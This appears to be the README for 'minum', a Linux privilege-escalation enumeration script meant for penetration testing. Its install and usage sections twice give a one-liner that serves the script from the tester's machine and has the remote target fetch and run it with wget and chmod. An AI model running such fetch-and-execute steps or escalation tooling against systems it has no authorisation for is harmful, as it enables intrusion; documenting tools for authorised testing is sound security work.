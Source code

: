 # minum : Minimal Enumeration Tool

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.  
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.  
Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.  
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.  

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Install
On your local machine:
```
git clone https://github.com/nirzaaa/minum.git
cd minum
python -m http.server
```

On the remote machine:
```
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
```

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
